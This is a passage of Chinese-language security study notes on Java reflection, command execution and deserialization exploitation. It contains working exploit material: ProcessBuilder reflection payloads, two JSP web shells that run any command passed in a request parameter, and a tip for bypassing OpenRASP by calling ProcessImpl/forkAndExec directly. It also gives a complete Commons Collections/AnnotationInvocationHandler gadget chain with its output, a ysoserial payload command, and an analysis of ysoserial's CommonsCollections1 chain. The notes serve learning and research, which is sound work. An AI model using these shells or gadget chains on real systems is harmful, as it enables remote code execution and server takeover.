- 我上面用到了第一个形式的构造函数，所以我在 getConstructor 的时候传入的是 List.class
- 但是，我们看到，前面这个Payload用到了Java里的强制类型转换，有时候我们利用漏洞的时候（在表 达式上下文中）是没有这种语法的。所以，我们仍需利用反射来完成这一步。
- 其实用的就是前面讲过的知识：

  ```java
  Class clazz = Class.forName("java.lang.ProcessBuilder");
  clazz.getMethod("start").invoke(clazz.getConstructor(List.class).newInstance(
  Arrays.asList("calc.exe")));
  ```

  - 通过 getMethod("start") 获取到start方法，然后 invoke 执行， invoke 的第一个参数就是 ProcessBuilder Object了。
- 那么，如果我们要使用 `public ProcessBuilder(String... command) `这个构造函数，需要怎样用反射执行呢？

  - 这又涉及到Java里的可变长参数（varargs）了。正如其他语言一样，Java也支持可变长参数，就是当你 定义函数的时候不确定参数数量的时候，可以使用 ... 这样的语法来表示“这个函数的参数个数是可变 的”。
  - 对于可变长参数，Java其实在编译的时候会编译成一个数组，也就是说，如下这两种写法在底层是等价 的（也就不能重载）：

    ```java
    public void hello(String[] names) {}
    public void hello(String...names) {}
    ```
  - 也由此，如果我们有一个数组，想传给hello函数，只需直接传即可：

    ```java
    String[] names = {"hello", "world"};
    hello(names);
    ```
  - **那么对于反射来说，如果要获取的目标函数里包含可变长参数，其实我们认为它是数组就行了。**
  - 所以，我们将字符串数组的类 String[].class 传给 getConstructor ，获取 ProcessBuilder 的第二 种构造函数：

    ```java
    Class clazz = Class.forName("java.lang.ProcessBuilder");
    clazz.getConstructor(String[].class)
    ```
  - 在调用 newInstance 的时候，因为这个函数本身接收的是一个可变长参数，我们传给 ProcessBuilder 的也是一个可变长参数，二者叠加为一个二维数组，所以整个Payload如下：

    ```java
    Class clazz = Class.forName("java.lang.ProcessBuilder");
    ((ProcessBuilder)clazz.getConstructor(String[].class).newInstance(new
    String[][]{{"calc.exe"}})).start();
    ```

### 内部类

- 反射调用内部类的时候需要使用 `$`来代替.,如com.anbai.Test类有一个叫做Hello的内部类，那么调用的时候就应该将类名写成：`com.anbai.Test$Hello`。[比如fastjson在 checkAutoType 时候就会 先将 `$ `替换成 `.` ](https://github.com/alibaba/fastjson/blob/fcc9c2a/src/main/java/com/alibaba/fa stjson/parser/ParserConfig.java#L1038)
- Java的普通类 C1 中支持编写内部类 C2 ，而在编译的时候，会生成两个文件： C1.class 和 `C1$C2.class` ，我们可以把他们看作两个无关的类，通过 `Class.forName("C1$C2")` 即可加载这个内部类。其他操作都是一样的。

## java本地命令执行函数

- java提供了命令执行的函数，黑客通常会RCE利用漏洞或者WebShell来执行系统终端命令控制服务器的目的。
- **黑客通常会RCE利用漏洞或者WebShell来执行系统终端命令控制服务器的目的。**
- 在Java中我们通常会使用 `java.lang.Runtime`类的 `exec`方法来执行本地系统命令。

  ```jsp
  <%@ page contentType="text/html;charset=UTF-8" language="java" %>
  <%@ page import="java.io.ByteArrayOutputStream" %>
  <%@ page import="java.io.InputStream" %>
  <%
      InputStream in = Runtime.getRuntime().exec(request.getParameter("liudeha")).getInputStream();
      ByteArrayOutputStream baos = new ByteArrayOutputStream();
      byte[] b = new byte[1024];
      int a = -1;
      while ((a = in.read(b)) != -1) {
      	baos.write(b, 0, a);
  	}
  	out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
  %>
  ```

  - 命令执行效果如下：windows下命令要加 `cmd /c `前缀才能执行命令（默认是执行程序，所以可以传入一个程序的绝对路径），linux不用。无法使用蚁剑连接。
  - 
- **Runtime命令执行调用链**：

  - 参考资料：https://www.freebuf.com/articles/web/308458.html
  - Runtime.exec(xxx)调用链如下:

    ```shell
    java.lang.UNIXProcess.<init>(UNIXProcess.java:247)
    java.lang.ProcessImpl.start(ProcessImpl.java:134)
    java.lang.ProcessBuilder.start(ProcessBuilder.java:1029)
    java.lang.Runtime.exec(Runtime.java:620)
    java.lang.Runtime.exec(Runtime.java:450)
    java.lang.Runtime.exec(Runtime.java:347)
    org.apache.jsp.runtime_002dexec2_jsp._jspService(runtime_002dexec2_jsp.java:118)
    
    ```
  - 通过观察整个调用链我们可以清楚的看到exec方法并不是命令执行的最终点，执行逻辑大致是：

    ```
    Runtime.exec(xxx)
    java.lang.ProcessBuilder.start()
    java.lang.ProcessImpl.start()
    new java.lang.UNIXProcess(xxx)
    UNIXProcess构造方法中调用了forkAndExec(xxx) native方法。
    forkAndExec调用操作系统级别fork->exec(*nix)/CreateProcess(Windows)执行命令并返回fork/CreateProcess的PID。
    ```
  - 有了以上的调用链分析我们就可以深刻的理解到Java本地命令执行的深入逻辑了，

    - Runtime是调用的ProcessBuilder
    - 而ProcessBuilder是调用的ProcessImpl
- **ProcessBuilder**:

  - 根据上面我们知道，ProcessBuilder传入的参数需要是数组。

  ```jsp
  <%@ page contentType="text/html;charset=UTF-8" language="java" %>
  <%@ page import="java.io.ByteArrayOutputStream" %>
  <%@ page import="java.io.InputStream" %>
  <%@ page import="java.util.Arrays" %>
  <%@ page import="java.util.ArrayList" %>
  <%
      String s = request.getParameter("liudehua");
  
      InputStream in = new ProcessBuilder(s.split(" ")).start().getInputStream();
      ByteArrayOutputStream baos = new ByteArrayOutputStream();
      byte[] b = new byte[1024];
      int a = -1;
  
      while ((a = in.read(b)) != -1) {
          baos.write(b, 0, a);
      }
  
      out.write("<pre>" + new String(baos.toByteArray()) + "</pre>");
  
  %>
  ```
- **UNIXProcess/ProcessImpl**：

  - UNIXProcess和ProcessImpl可以理解本就是一个东西，因为在JDK9的时候把UNIXProcess合并到了ProcessImpl当中了,参考[changeset 11315:98eb910c9a97](https://hg.openjdk.java.net/jdk-updates/jdk9u/jdk/rev/98eb910c9a97)。
  - 很多人对Java本地命令执行的理解不够深入导致了他们无法定位到最终的命令执行点，OpenRASP只防御到了ProcessBuilder.start()方法，而我们只需要直接调用最终执行的UNIXProcess/ProcessImpl实现命令执行或者直接反射UNIXProcess/ProcessImpl的forkAndExec方法就可以绕过RASP实现命令执行了。

## 反序列化漏洞

### 序列化和反序列化

- 在RMI(Java远程方法调用-Java Remote Method Invocation)和JMX(Java管理扩展-Java Management Extensions)服务中对象反序列化机制被强制性使用。在Http请求中也时常会被用到反序列化机制，如：直接接收序列化请求的后端服务、使用Base编码序列化字节字符串的方式传递等。
- **只有实现(继承就行了，可以不重写)了 Serializable 或 Externalizable 接口的类的对象才能被序列化和反序列化。**

  - Externalizable 接口继承自Serializable 接口，实现 Externalizable 接口的类完全由自身来控制反序列化的行为，
  - 而实现  Serializable 接口的类既可以采用默认的反序列化方式，也可以自定义反序列化方式（就是重写serializable的readObject方法）。**即反序列会执行readObject方法。**
- 对象序列化和反序列范例：操作和php，python差不多
- 定义一个User类，实现Serializable接口

  ```java
  package test;
  import java.io.Serializable;
  public class User implements Serializable{
      private String name;
      public String getName(){
          return name;
      }
      public void setName(String name){
          this.name=name;
      }
  }
  ```
- 定义主类，对User对象进行序列化和反序列化:

  ```java
  package test;
  
  import java.io.FileInputStream;
  import java.io.FileOutputStream;
  import java.io.IOException;
  import java.io.ObjectInputStream;
  import java.io.ObjectOutputStream;
  public class UserSerial {
      public static void main(String[] args) throws IOException {
          UserSerial a=new UserSerial();
          try {
              a.run();    //序列化
              a.run2();   //反序列化
          } catch (IOException | ClassNotFoundException e) {
              e.printStackTrace();
          }
      }
  
      //将该对象进行序列化，存储在本地的test.txt文件中
      public static void run() throws IOException{
          FileOutputStream out=new FileOutputStream("test.txt");   //实例化一个文件输出流
          ObjectOutputStream obj_out=new ObjectOutputStream(out);  //实例化一个对象输出流
          User u=new User();
          u.setName("谢公子");
          obj_out.writeObject(u);   //利用writeObject()方法将类序列化存储在本地
  
          obj_out.close();
          System.out.println("User对象序列化成功！");
          System.out.println("***********************");
      }
      //将存储在本地test.txt的序列化数据进行反序列化
      public void run2() throws IOException,ClassNotFoundException{
          FileInputStream in = new FileInputStream("test.txt");   //实例化一个文件输入流
          ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
  
          User u=(User)ins.readObject();// 对象输入流的readObject() 方法从该对象输入流中读取字节序列，再把它们反序列化为一个对象，并将其返回。
          System.out.println("User对象反序列化成功！");
          System.out.println(u.getName());
          ins.close();
      }
  }
  
  ```
- 自定义反序列化行为，重写readObject方法。

  ```java
  package test;
  import java.io.BufferedReader;
  import java.io.IOException;
  import java.io.InputStreamReader;
  import java.io.Serializable;
  public class User implements Serializable{
      private String name;
      public String getName(){
          return name;
      }
      public void setName(String name){
          this.name=name;
      }
      private void readObject(java.io.ObjectInputStream in)throws ClassNotFoundException,IOException, InterruptedException{
          //这里使用默认的ReadObject方法,保证我们的对象能够正常序列化
          in.defaultReadObject();
          //执行系统命令：whoami
          Process p=Runtime.getRuntime().exec("whoami");
          java.io.InputStream is=p.getInputStream();
          BufferedReader reader = new BufferedReader(new InputStreamReader(is));
          p.waitFor();
          if (p.exitValue() != 0) {
              //说明命令执行失败
              //可以进入到错误处理步骤中
          }
          String s = null;
          while ((s = reader.readLine()) != null) {
              System.out.println(s);
          }
      }
  }
  ```

### 反序列化漏洞

- 2015年[Apache Commons Collections反序列化漏洞](https://issues.apache.org/jira/browse/COLLECTIONS-580)([ysoserial](https://github.com/frohoff/ysoserial)的最早的commit记录是2015年1月29日）
- **反序列化漏洞的产生，就是该类继承重写了 Serializable 或 Externalizable 接口并重写readObject方法，而且这个readObject方法中有可以利用的代码。**和php反序列会执行__wakeup()一样。
- **我们需要找到一个类，这个类重写了readObject方法，并且该方法存在漏洞，使得我们可以利用。**
- **Apache Commons Collections：**

  - Apache Commons Collections 是一个扩展了Java标准库里的Collection结构的第三方基础库，它提供了很多强有力的数据结构类型并且实现了各种集合工具类。作为Apache开源项目的重要组件，Commons Collections被广泛应用于各种Java应用的开发。
  - 这个框架中有一个InvokerTransformer.java接口，实现该接口的类可以通过调用java的反射机制来调用任意函数，于是我们可以通过调用Runtime.getRuntime.exec() 函数来执行系统命令。
  - Apache commons  collections包的广泛使用，也导致了java反序列化漏洞的大面积流行。
  - TransformedMap类: **扩展的Map类**

    - 感觉像个高阶函数，传入transform函数对传入的字典Map进行修改。
    - **Commons  Collections 实现了一个TransformedMap类，该类是对Java标准数据结构Map(也就是python的字典，有key和value)接口的一个扩展**。该类可以在一个元素被加入到集合内时，自动对该元素进行特定的修饰变换，具体的变换逻辑由Transformer类定义，Transformer在TransformedMap实例化时作为参数传入。
    - 我们可以通过TransformedMap.decorate()方法，获得一个TransformedMap的实例。如下代码是TransformedMap.decorate()方法

      ```java
      public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
        return new TransformedMap(map, keyTransformer, valueTransformer);
      }
      ```
  - Transformer接口：

    - Transformer是一个接口，其中定义的transform()函数用来将一个对象转换成另一个对象。有个特定的Transformer可以反射执行系统命令。

      ```java
      public interface Transformer {  
        public Object transform(Object input);
      }
      ```
    - 当TransformedMap中的任意项的Key或者Value被修改，相应的Transformer的transform()方法就会被调用。除此以外，**多个Transformer还能串起来，形成反射链ChainedTransformer，然后当作Transformer参数传入即可。**
    - Apache Commons  Collections中已经实现了一些常见的 Transformer，其中的 InvokerTransformer 接口实现了反射链，可以通过Java的反射机制来执行任意命令。于是我们可以通过**InvokerTransformer的反射链获得Runtime类**来执行系统命令 。
  - 一个简化版的CommonCollections1：

    ```java
    package test;
    
    import org.apache.commons.collections.Transformer;
    import org.apache.commons.collections.functors.ChainedTransformer;
    import org.apache.commons.collections.functors.ConstantTransformer;
    import org.apache.commons.collections.functors.InvokerTransformer;
    import org.apache.commons.collections.map.TransformedMap;
    
    import java.util.HashMap;
    import java.util.Map;
    
    // 代码来自p神的知识星球
    public class Collections {
        public static void main(String[] args) throws Exception {
            Transformer[] transformers = new Transformer[]{
                    new ConstantTransformer(Runtime.getRuntime()),
                    new InvokerTransformer("exec", new Class[]{String.class},
                            new Object[]{"calc"}),
            };
    
            Transformer transformerChain = new
                    ChainedTransformer(transformers);
            Map innerMap = new HashMap();
            Map outerMap = TransformedMap.decorate(innerMap, null,
                    transformerChain);
            outerMap.put("test", "xxxx");
        }
    }
    ```
  - 代码调试：

    - 跟进ChainedTransformer函数：

      - 

        ```java
        public ChainedTransformer(Transformer[] transformers) {
        	this.iTransformers = transformers;
        }
        ```
      - 发现只是是给Transformer对象的iTransformers属性赋值，把transfomers数组复制过去。
    - 跟进TransformedMap.decorate函数

      - 

        ```java
            public static Map decorate(Map map, Transformer keyTransformer, Transformer valueTransformer) {
                return new TransformedMap(map, keyTransformer, valueTransformer);
            }
        ```

        ```java
            protected TransformedMap(Map map, Transformer keyTransformer, Transformer valueTransformer) {
                super(map);
                this.keyTransformer = keyTransformer;
                this.valueTransformer = valueTransformer;
            }
        ```
      - 发现是给TransformedMap对象的两个属性赋值，发现直接把Transformer对象复制过去了（当然这时候的transformer对象只有iTransformers属性保存着transformer数组）。
    - 步入 `outerMap.put("test", "xxxx");`

      - 
      - 
    - 这里有一个重要的问题，我们重新查看Map类，发现只是基本库的Map.java文件的一个接口。

      - 
      - 接口内只声明方法，方法由继承它的类去实现。
      - 例如对象A继承了B接口，那就要对B负责，B内声明的所有方法，A都要去实现。
        在这之后，B就可以接收A对象了，但如果这样做，**这时候B对象就只能调用A中实现了B接口的方法**，虽然对象B的A的其它方法还在，只不过用B接收时不能调用了。如果B再把对象还给A，A还可以调用所有方法。所以B就像一个A的指针，可以接收A，但又会对A做出限制（其实还要看代码理解的更透彻)
      - 所以这里的put函数就进入了TransformedMap的put函数。
    - 因为我们只给了value进行tranformerChains，所以只跟进value的函数。

      ```java
          protected Object transformValue(Object object) {
              return this.valueTransformer == null ? object : this.valueTransformer.transform(object);
          }
      ```
    - 根据之前，我们知道TransformedMap对象的两个属性保存着transformer对象，valueTransformer属性保留着ChainedTransformer类的对象。
    - 跟进 `this.valueTransformer.transform(object)`，这个函数是一个接口，每一个transformer会自己实现，这时候是进入到了ChainedTransformer类transform函数。不难猜测，如果我们进入的不是transformer链，而是一个普通transfomer，那么它实现的transform函数就不是这样一个for循环了。

      ```java
          public Object transform(Object object) {
              for(int i = 0; i < this.iTransformers.length; ++i) {
      
                  object = this.iTransformers[i].transform(object);
      
              }
      
              return object;
          }
      ```
    - 遍历iTransformers，用transform方法处理object

      
    - 第一个transform返回了Runtime对象，继续循环进入。
    - 
    - 第二个transform通过反射，执行了exec函数，导致命令执行。
    - 也就前一个transform的输出会被当下一个transform的输入，这就是ChainedTransformer。
  - ConstantTransformer是什么？

    - 看下它的构造方法和transform方法
    - 
    - 相当于构造时给它传入什么对象，调用transform就能获得什么对象
  - InvokerTransformer是什么？

    - 看下它的构造方法和transform方法
    - 
    - 先看构造方法：从参数名上来看，构造函数是：函数名、函数参数类型、函数参数
    - 再看transform方法:参数是一个对象，然后直接通过反射调用对象的函数，这个函数是调用构造方法时指定的。
    - 这就解释得通了，在outerMap.put("test", "xxxx");时，把value值扔进transformers数组的第一个元素的transform方法，再把返回值扔给第二个元素的transform方法
      第一个元素返回值是Runtime对象，第二个元素transform方法调用了Runtime的exec导致命令执行
      所以，只要调用put方法，就会导致命令执行。
    - 
- **目前的构造还需要依赖于修改Map中的Value值或者key去触发调用反射链，我们需要想办法通过readObject()直接触发。**
- **如果某个可序列化的类重写了readObject()方法，并且在readObject()中对Map类型的变量进行了键值修改操作，并且这个Map参数是可控的，那么就有反序列化漏洞了。**于是我们找到了这个类：AnnotationInvocationHandler （jdk8及以上无法使用）。
- **当然也有其他的攻击链。**

### AnnotationInvocationHandler类

- jdk8及以上无法使用
- 实例化时传入的参数 `Objectinstance=ctor.newInstance(Target.class,outerMap);`
- 这个类有一个成员变量 `memberValues `是Map<String,Object>类型，并且在重写的 readObject() 方法中有 `memberValues.setValue() `修改Value的操作。简直是完美！而且memberValues 可以是TransformedMap对象，也就是我们可以传入含有Transformer操作的TransformedMap对象了。可以自行查看这个类的readObject()的实现。

  ```java
  //jdk7下的代码
  private void readObject(ObjectInputStream var1) throws IOException, ClassNotFoundException {
          var1.defaultReadObject();
          AnnotationType var2 = null;
  
          try {
              var2 = AnnotationType.getInstance(this.type);
          } catch (IllegalArgumentException var9) {
              throw new InvalidObjectException("Non-annotation type in annotation serial stream");
          }
  
          Map var3 = var2.memberTypes();
          Iterator var4 = this.memberValues.entrySet().iterator();
  
          while(var4.hasNext()) {
              Entry var5 = (Entry)var4.next();
              String var6 = (String)var5.getKey();
              Class var7 = (Class)var3.get(var6);
              if (var7 != null) {
                  Object var8 = var5.getValue();
                  if (!var7.isInstance(var8) && !(var8 instanceof ExceptionProxy)) {


                      var5.setValue((new AnnotationTypeMismatchExceptionProxy(var8.getClass() + "[" + var8 + "]")).setMember((Method)var2.members().get(var6)));


                  }
              }
          }
    
      }
  }
  ```
- 于是我们可以实例化一个AnnotationInvocationHandler类，将其成员变memberValues赋值为精心构造的恶意TransformedMap对象。然后将其序列化，提交给未做安全检查的Java应用。
- Java应用在进行反序列化操作时，执行了readObject()函数，修改了Map的Value，则会触发TransformedMap的变换函数transform()，再通过反射链调用了Runtime.getRuntime.exec("XXX") 命令，最终就可以执行我们的任意代码了，一切是那么的天衣无缝！
- 在 JDK 8 中，AnnotationInvocationHandler 在重写的 readObject() 方法中移除了 memberValue.setValue的调用，从而使我们上面构造的 AnnotationInvocationHandler + TransformedMap失效。当然还有其他的利用方式，具体见ysoserial.jar工具。
- maven依赖:

  ```
  <dependency>
      <groupId>commons-collections</groupId>
      <artifactId>commons-collections</artifactId>
      <version>3.2.1</version>
  </dependency>
  ```
- 因为安全机制高版本（3.2.2版本及以上）`commons     org.apache.commons.collections.functors.InvokerTransformer`类无法使用

  - 在java代码中使用下列命令，可以在3.22版本启动该方法

    ````java
    System.setProperty("org.apache.commons.collections.enableUnsafeSerialization","true");`
    ````
- 测试代码

  ```java
  package test;
  
  import java.io.FileInputStream;
  import java.io.FileOutputStream;
  import java.io.IOException;
  import java.io.ObjectInputStream;
  import java.io.ObjectOutputStream;
  import java.lang.annotation.Target;
  import java.lang.reflect.Constructor;
  import java.util.HashMap;
  import java.util.Map;
  import java.util.Map.Entry;
  
  import org.apache.commons.collections.Transformer;
  import org.apache.commons.collections.functors.ChainedTransformer;
  import org.apache.commons.collections.functors.ConstantTransformer;
  import org.apache.commons.collections.functors.InvokerTransformer;
  import org.apache.commons.collections.map.TransformedMap;
  
  public class Annotest {
      public static void main(String[] args) throws Exception{
          Transformer[] transformers = new Transformer[] {
                  new ConstantTransformer(Runtime.class),
                  new InvokerTransformer("getMethod", new Class[] {String.class, Class[].class }, new Object[] {"getRuntime", new Class[0] }),
                  new InvokerTransformer("invoke", new Class[] {Object.class, Object[].class }, new Object[] {null, new Object[0] }),
                  new InvokerTransformer("exec", new Class[] {String.class }, new Object[] {"calc.exe"})};
  
          Transformer transformedChain = new ChainedTransformer(transformers);  //实例化一个反射链
  
          Map innerMap = new HashMap();   //实例化一个Map对象
          innerMap.put("value", "value");
  
          Map outerMap = TransformedMap.decorate(innerMap, null, transformedChain); //将Map对象和反射链作为参数传入
  
          Class cl = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");  //得到 AnnotationInvocationHandler类的字节码文件
          Constructor ctor = cl.getDeclaredConstructor(Class.class, Map.class);
          ctor.setAccessible(true);
          Object instance = ctor.newInstance(Target.class, outerMap);  //得到我们构造好的 AnnotationInvocationHandler类实例
  
          FileOutputStream f = new FileOutputStream("./test.txt");
          ObjectOutputStream out = new ObjectOutputStream(f);  //创建一个对象输出流
          out.writeObject(instance);  //将我们构造的 AnnotationInvocationHandler类进行序列化
          out.flush();
          out.close();
          //开始反序列化test.txt文件
          Unser();
      }
  
      public static void Unser() throws IOException,ClassNotFoundException{
          FileInputStream in = new FileInputStream("./test.txt");   //实例化一个文件输入流
          ObjectInputStream ins = new ObjectInputStream(in);      //实例化一个对象输入流
          User u= (User) ins.readObject();   //反序列化
          System.out.println("反序列化成功！");
          ins.close();
      }
  };
  
  ```
- jdk7下弹出了计算器。

  ```shell
  Exception in thread "main" java.lang.ClassCastException: sun.reflect.annotation.AnnotationInvocationHandler cannot be cast to test.User
  	at test.Annotest.Unser(Annotest.java:52)
  	at test.Annotest.main(Annotest.java:46)
  虽然会报类转换错误，但是是先反序列化成对象，然后 (User)转换的。所以没有关系。
  ```

### 反序列化工具ysoserial.jar

- ysoserial是一款用于生成利用不安全的Java对象反序列化的有效负载的概念验证工具。项目地址：https://github.com/frohoff/ysoserial。可以自己编译，也可以直接下载jar文件。
- ysoserial提供了多种基于InstantiateTransformer/InvokerTransformer构建调用链方式：[LazyMap](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections1.java)、[PriorityQueue](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections2.java)、[BadAttributeValueExpException](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections5.java)、[HashSet](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections6.java)、[Hashtable](https://github.com/frohoff/ysoserial/blob/master/src/main/java/ysoserial/payloads/CommonsCollections7.java)，不同的利用链需要不同的依赖和jdk版本。
- 利用ysoserial.jar，我们可以不用自己写payload了。
- 查看帮助 ：java -jar     .\ysoserial.jar
  
- 不同利用链依赖要求：

  ```txt
  CommonsCollections1所需第三方库文件: commons-collections: 3.1
  
  CommonsCollections2所需第三方库文件: commons-collections4: 4.0
  
  CommonsCollections3所需第三方库文件: commons-collections: 3.1(CommonsCollections1的变种)
  
  CommonsCollections4所需第三方库文件: commons-collections4: 4.0(CommonsCollections2的变种)
  
  CommonsCollections5,6,7,10用的还是commons-collections: 3.1， jdk用7或8都可以。
  
  CommonsCollections9适用于3.2.1
  
  Groovy1所需第三方库文件: org.codehaus.groovy:groovy:2.3.9
  
  Jdk7u21所需第三方库文件: 只需JRE版本
  
  Spring1所需第三方库文件: spring框架所含spring-core:4.1.4.RELEASE,spring-beans:4.1.4.RELEASE
  ```
- 构造反序列化payload：

  - **java -jar ysoserial.jar CommonsCollections5 calc.exe** **>** **payload.bin**    在windows下运行生成payload会有问题，linux下就正常了

  

  - 使用commonsColletions5生成的payload在本地jdk8环境下复现成功
    
- cc链：

  - apache commons-collections组件反序列化漏洞的反射链也称为CC链。
  - 

### ysoserial.jar源码分析

#### CommonsCollections1分析：

- idea反编译jar文件后，打开payload目录，各种利用链都在这。
- 

  ```java
  String[] execArgs = new String[]{command};
  
  Transformer transformerChain = new ChainedTransformer(new Transformer[]{new ConstantTransformer(1)});
  
  Transformer[] transformers = new Transformer[]{
  	new ConstantTransformer(Runtime.class), 
  	new InvokerTransformer("getMethod", new Class[]{String.class, Class[].class},new Object[]{"getRuntime", new Class[0]}), 
  	new InvokerTransformer("invoke", new Class[]{Object.class, Object[].class}, new Object[]{null, new Object[0]}), 
      new InvokerTransformer("exec", new Class[]{String.class}, execArgs), 
      new ConstantTransformer(1)};
  ```
- 构造transformers链，第一个Transformer，只有一个ConstantTransformer，在之前的简化版代码中已经学过了，ConstantTransformer的参数是1，那transform方法返回的也是1。
- 第二个Transformer是通过反射获取Runtime对象，通过反射，获取invoke方法，再通过反射，执行exec方法，这个不难。

  ```java
  Map innerMap = new HashMap();
  Map lazyMap = LazyMap.decorate(innerMap, transformerChain);
  ```
- 构造一个hashmap对象，同时创建了LazyMap对象，参数是之前的map和ConstantTransformer对象。进入 LazyMap.decorate()函数。

  ```java
  public static Map decorate(Map map, Transformer factory) {
  	return new LazyMap(map, factory);
  }
  
  protected LazyMap(Map map, Transformer factory) {
      super(map);
      if (factory == null) {
      	throw new IllegalArgumentException("Factory must not be null");
      } else {
      	this.factory = factory;
  	}
  }
  ```
- LazyMap通过HashMap初始化了自己，然后将Transformer对象存到factory变量。
- LazyMap和HashMap有什么区别？

  - Lazymap意思就是这个Map中的键/值对一开始并不存在，当被调用到时才创建
  - 我们这样来理解，我们需要一个Map,但是由于创建成员的方法很“重”（比如数据库访问）
  - 我们只有在调用get()时才知道如何创建，或者Map中出现的可能性很多
  - 我们无法在get()之前添加所有可能出现的键/值对
  - 我们觉得没有必要去初始化一个Map而又希望它在必要时自动处理数据。
  - 关于 Lazymap的使用再说两点，一般需要使用 Lazymap. decorate(Map, Factory)的方式来创建，实现 Factory中的 create方法.
- 查看get方法

  ```java
      public Object get(Object key) {
          if (!this.map.containsKey(key)) {
              Object value = this.factory.transform(key);
              this.map.put(key, value);
              return value;
          } else {
              return this.map.get(key);
          }
      }
  }
  ```
- 当get一个不存在的key时，会将key通过Transformer产生value，然后存储到map中，返回value
  到这里明白了，使用当LazyMap的get一个不存在的键时，就会调用Transformer，导致命令执行。
- 再继续看调用了Gadgets.createMemoitizedProxy函数

  ```java
  Map mapProxy = (Map)Gadgets.createMemoitizedProxy(lazyMap, Map.class, new Class[0]);
  ```

  ```java
  public static <T> T createMemoitizedProxy(Map<String, Object> map, Class<T> iface, Class<?>... ifaces) throws Exception {
  
     return createProxy(createMemoizedInvocationHandler(map), iface, ifaces);
  
  }
  
  public static InvocationHandler createMemoizedInvocationHandler(Map<String, Object> map) throws Exception {
  
    return (InvocationHandler)Reflections.getFirstCtor("sun.reflect.annotation.AnnotationInvocationHandler").newInstance(Override.class, map);
  
  }
  ```
- 通过反射，创建了AnnotationInvocationHandler对象，构造参数为Override.class, map。
- AnnotationInvocationHandler类可以用于动态代理。动态代理详解看java语言的笔记。
- 看下AnnotationInvocationHandler的构造函数

  ```java
  AnnotationInvocationHandler(Class<? extends Annotation> type, Map<String, Object> memberValues) {
      Class<?>[] superInterfaces = type.getInterfaces();
      if (!type.isAnnotation() ||
          superInterfaces.length != 1 ||
          superInterfaces[0] != java.lang.annotation.Annotation.class)
          throw new AnnotationFormatError("Attempt to create proxy for a non-annotation type.");
      this.type = type;  //type是我们传入的Override.class
      this.memberValues = memberValues;  //传入的map存到了memberValues
  }
  ```
- 如图，可以看见将Override.class和map存到了对象的变量里，所以可以将AnnotationInvocationHandler当做一个封装了LazyMap的类。
- 回到最初的createMemoitizedProxy方法内，AnnotationInvocationHandler、Map.class和new Class[0]一起传给了createProxy

  ```java
  public static <T> T createProxy(InvocationHandler ih, Class<T> iface, Class<?>... ifaces) {
      Class<?>[] allIfaces = (Class[])((Class[])Array.newInstance(Class.class, ifaces.length + 1));
      allIfaces[0] = iface;
      if (ifaces.length > 0) {
          System.arraycopy(ifaces, 0, allIfaces, 1, ifaces.length);
      }
  
    return iface.cast(Proxy.newProxyInstance(Gadgets.class.getClassLoader(), allIfaces, ih));
  }
  ```
- 这里的Proxy.newProxyInstance是，java代理模式的一种：动态代理

  - 可以理解为将AnnotationInvocationHandler设置为了LazyMap的代理类，代理的方法为Map接口中的所有方法。
  - 即通过这个代理类访问接口Map中的所有方法都会交给代理类AnnotationInvocationHandler中的invoke方法处理。
- 查看AnnotationInvocationHandler的invoke方法。

  ```java
  public Object invoke(Object proxy, Method method, Object[] args) {
      //获取要调用的方法名和传入该方法的参数类型
      String member = method.getName();
      Class<?>[] paramTypes = method.getParameterTypes();


      // Handle Object and Annotation methods
      //对方法名和参数类型做一些限制，方法参数数量必须为0，方法名不能为equals
      if (member.equals("equals") && paramTypes.length == 1 &&
          paramTypes[0] == Object.class)
          return equalsImpl(args[0]);
      if (paramTypes.length != 0)
          throw new AssertionError("Too many parameters for an annotation method");
    //方法名不能为toString、hashCode、annotationType
      switch(member) {
      case "toString":
          return toStringImpl();
      case "hashCode":
          return hashCodeImpl();
      case "annotationType":
          return type;
      }
    
      // Handle annotation member accessors
      //这里的memberValues是之前构造好的LazyMap对象,也就是调用了LazyMap.get(member),然后就会进入LazyMap.get(member)函数里面，就开始执行transformer链了，具体代码看上面LazyMap.get的实现。
      Object result = memberValues.get(member);
    
      if (result == null)
          throw new IncompleteAnnotationException(type, member);
    
      if (result instanceof ExceptionProxy)
          throw ((ExceptionProxy) result).generateException();
    
      if (result.getClass().isArray() && Array.getLength(result) != 0)
          result = cloneArray(result);
    
      return result;
  }
  ```
- 所以，只要满足方法名和参数个数限制，就会调用LazyMap的get，就会触发命令执行
- 所以，Map接口内除了toString、hashCode、annotationType的并且参数数量为0的所有方法，都可以触发命令执行（神奇！）
- 下一行代码 `createMemoizedInvocationHandler`，之前分析过了。使用mapProxy，创建了AnnotationInvocationHandler对象，相当于对mapProxy的封装。为什么要这么做？

  - 因为在上一步构造出的mapProxy对象，只要被调用除toString、hashCode、annotationType的所有参数数量为0的方法，就会造成命令执行。
  - 但是我们需要在反序列化时触发上面的条件，即在readObject中调用mapProxy的参数为空的方法。
- 那看一下AnnotationInvocationHandler的readObject方法

  - 
  - 先看红框，从序列化数据中读取到了memberValues（之前构造的LazyMap对象），然后调用了它的entrySet方法，该方法参数为空，满足了触发条件，执行了transformer链。
  - 再看蓝框，从序列化数据中读取type的Class对象t，然后使用t创建了AnnotationType类型对象，如果创建失败，就会抛异常。
  - 这个type是什么？如图，是Override.class。

    - 
  - 在AnnotationInvocationHandler构造函数里可以通过Class<? extends Annotation> type接收，那就说明Override.class一定是继承自Annotation的，所以反序列化时，蓝框内条件百分百满足，所以，至此，，反序列化链构造完毕。
- 但是我们之前的transfomer链就一个transfomers，真正的链子在transformers数组里面。

  ```java
  Reflections.setFieldValue(transformerChain, "iTransformers", transformers);
  ```
- 所以最后通过反射改掉了transfomer链的数组为真正的transformers数组。为什么这样做？

  - 先使用transformerChain构造利用链，之后在构造好反序列化对象后，将transformerChain中的Transformer链替换为真正的链，是**为了避免在构造利用链时触发命令执行**。
  - 利用链都构造好了，再修改transformerChain，有用吗？
    因为transformerChain只是引用，用来序列化的对象内储存的也是引用，，引用相当于指针，二者访问的是同一块内存的数据，而我们修改的正是这块内存的数据，所以当然有用。
- 总结：

  - 
  - ysoserial在构造Transformers时，为什么要用那么多反射?

